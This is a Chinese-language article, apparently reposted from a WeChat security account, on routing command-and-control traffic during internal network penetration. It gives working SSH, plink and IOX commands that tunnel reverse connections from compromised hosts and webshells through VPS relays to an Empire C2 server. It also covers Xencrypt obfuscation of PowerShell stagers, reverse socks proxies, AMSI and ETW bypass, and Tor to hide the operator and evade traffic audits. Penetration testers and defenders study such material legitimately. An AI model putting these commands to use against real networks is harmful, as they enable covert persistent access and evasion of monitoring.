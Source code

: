 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/JN4o0YHYq825b66RFfZniw)

0x00 前言  

----------

**流量转发，可以说时内网渗透的基础，网上的文章也挺多的，但是我最近看见别人的粗糙的方式，比如把 CS 直接传到服务器上这样的操作，我觉得是应该总结一下各种流量转发的场景了，方便渗透中使用。**  

0x01 本文用到的工具
------------

```
- Empire https://github.com/EmpireProject/Empire (C2)- Xencrypt.ps1 https://github.com/the-xentropy/xencrypt/blob/master/xencrypt.ps1 (powershell encrypt)- IOX https://github.com/EddieIvan01/iox- Neo-regeorg https://github.com/L-codes/Neo-reGeorg- Plink  C:Program Files (x86)GitExtensionsPuTTYplink.exe
```

0x02 复杂度 0
----------

1. 例如反弹 shell 需要反弹到自己 VPS 上，那这里我们需要把 CS 或者 empire 等 C2 工具传到 VPS 上吗？

不需要，按照隐藏自己的原则，VPS 上基本不能有渗透的任何文件，以免留下痕迹，命令其实也很简单，在 win10 以及 linux 上都有 ssh 命令了，所以：

```
ssh  -CNfT -R 4444:192.168.137.129:443 root@vpsip
```

注：vpsip 需要配置远程端口转发支持，修改`/ect/ssh/sshd_config`添加:

```
AllowAgentForwarding yesAllowTcpForwarding yesGatewayPorts yes
```

### 实际演示

被控端：192.168.137.164 （nat）

kali: 192.168.0.105 (bridge)

这两台机器本身互不相同，但是都能出网，所以使用 VPS 来中转。

这里使用 Empire 作为 C2，使用 https 监听, 这里的 HOST 要设置为 VPSIP 和端口

![](https://mmbiz.qpic.cn/mmbiz_png/zVe1icA5ewQeydLQZUI7Usicao4b8XYpDSCh26dR2ZyYCO30u9gheTmeNgIAicPq8Zqedia51mFc1dX28mkHTVtpUg/640?wx_fmt=png)

接着 ssh 端口转发：  

生成一个 stager，这里生成的时候 IP 就是 VPSIP，端口就是 4444，这样会直接将流量转到虚拟机的 Empire 的 443 端口来。生成 powershell 的 stager，先解码出来再用 xencrypt 加密运行。

`Invoke-Xencrypt -InFile xx.ps1 -OutFile banana.ps1 -Iterations 3`

这样只要受控端可以直接出网的情况的话，就可以这样利用。而且 vps 到内网机器的流量都是加密的。empire 其实自带一个 http_hop listener，把生成的文件传到 A VPS 上面，再使用 http_hop 再生成 stager 来请求 A VPS，流量就会被转移到真实的 B VPS 上。具体可以参考：https://www.hackingarticles.in/hiding-ip-during-pentest-using-powershell-empire-http_hop/

0x03 复杂度 1
----------

其实为了自己更安全，C2 最好放在自己虚拟机自定义的一个不能出网的网段，然后远程端口转发到自己 C2 监听的端口。命令与其实上面一样：`plink -CNfT -R 4444:192.168.13.29:443 root@vpsip`只不过要在 windows 的物理机上执行，因为只有 windows 物理机能够出网而且又能访问到特定网段。这里就不具体说明了，因为我们主要关注被控端能够访问到我们的 VPS 端口，所以自己要跳几条 VPS，系统环境等随便怎么设置都可以。

场景：拿到 webshell，发现是内网一台 windows 不能出网。这就需要找到一台能够出网的了。

先使用 regeorg 进行正向代理，寻找到出网机器。这里依然可以使用 ssh 远程转发，在跳板机上面执行。但是我们这使用 IOX 来演示，适合自己 VPS 是 windows 或者突然忘了自己 vps 密码的人:)

### 实际演示

测试环境：

debian:192.168.217.92/192.168.137.139 双网卡

win10:192.168.217.128

vps: 就用上面的 4444 端口

1. 把 iox linux 64bit 传到 debian 这个跳板机上执行：

```
./iox fwd -l 4444 -r vpsip:4444<br style="margin: 0px;padding: 0px;max-width: 100%;box-sizing: border-box !important;word-wrap: break-word !important;">
```

2. 重新生成 stager，上传到 win10 上，因为 win10 只能访问到 192.168.217.139，所以配置 host 参数为 http://192.168.217.92:4444， 这里我们在 1 中已经监听了 4444 端口流量并且转发到了 VPS 上。  

这里的 listener 必须配置为 http，我自己测试发现 https 的上线不了，https 直接网页会报 SSL 错，但是还是能够访问的，说明流量转发正确。猜测可能是 IOX 转发 https 流量不行。

演示图中使用的是 http 的 listener:

整个流程：

内网不能出网的 windows10，通过 debian 把流量转发到 vps 端口，vps 再转到自己的虚拟机的 C2 中。

配置 stager 时可以配置 http 代理，

再渗透中，很多都是通过代理出网的，找到代理服务器 IP 和端口，设置 http/https 代理，生成 stager 的时候 host 就设置为 vps 就可以了，不用设置为内网的机器。  

复杂度 1.1
-------

### 实际演示

环境 1：

有 VPN 账号，但是在里面就是找不到代理或者可控的出网机器。

1. 在自己 VPN 拨号的虚拟机中，执行`ssh -CNfT -L 4444:vpsip:4444 root@vpsip`或者`./iox fwd -l 4444 -r vpsip:4444`, 将发往自己 4444 端口流量转发到 192.168.137.129:443 C2 控制端。

2. 在被控端 windows 上的 webshell 执行 payload，指定 host 为我们 VPN 拨号后分配的地址。

环境 2：

无 VPN 账号，有 regeorg 的正向代理和 webshell 权限。

那就正向代理:)

环境 3：

内网机器可以出网，但是没有公网 IP，不使用 regeorg 的正向代理。

```
./iox proxy -r vps:9999  (webshell上执行 socks反弹)<br style="margin: 0px;padding: 0px;max-width: 100%;box-sizing: border-box !important;word-wrap: break-word !important;">./iox proxy -l 9999 -l 1080 (vps上执行)<br style="margin: 0px;padding: 0px;max-width: 100%;box-sizing: border-box !important;word-wrap: break-word !important;">
```

这样只有把代理设置为 vps:1080，就是内网正向的 socks 代理了。

```
./iox fwd -l 1088 -r vpsip:1080<br style="margin: 0px;padding: 0px;max-width: 100%;box-sizing: border-box !important;word-wrap: break-word !important;">
```

如果运行上面这条命令在自己虚拟机上，这样本地设置 127.0.0.1:1088 这个代理一样可以代理访问到内网。

带加密的话 IOX 也非常简单, 这里使用虚拟机来演示下：

```
./iox proxy -r *vps:9999 -k 788123  (webshell上执行)./iox proxy -l *9999 -l *1080 -k 788123(vps上执行)./iox fwd -l 1088 -r *vpsip:1080 -k 788123(自己的机器)
```

可以看见 kali 是不能访问到那边的，但是我通过这样正向 socks 代理就可以了。

总结
--

    本来开始准备用 SILENTTRINITY 作为 C2 的，生成 c# stager, 然后使用 detout 来编码生成 shellcode。detout 生成的 shellcode 有 patch amsi 和 script logging,dev 的分支也加上了 bypass etw monitor. 但是 ST 这个框架还是不稳定，而且功能欠缺多，但是这种技术思路很好。detout+C# 的马还是很好用的。

    内网渗透中，环境会更复杂，我这里完全是抛砖引玉，一个基本思路，清楚的知道自己的流量走向，不管怎么复杂都一样。文中提到的技术，都跟自己 VPS 和自己的网络情况有很大关系，网速不好，体验就不好。这些工具都带有加密的功能，这样会在流量审计上更好过一点，不会上传 C2 到别人服务器上面，在其中某个点加个 tor 网络就更能隐藏自己了。

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“如侵权请私聊公众号删文”

****扫描关注 LemonSec****  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icncXiavFRorU03O5AoZQYznLCnFJLs8RQbC9sltHYyicOu9uchegP88kUFsS8KjITnrQMfYp9g2vQfw/640?wx_fmt=png)

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**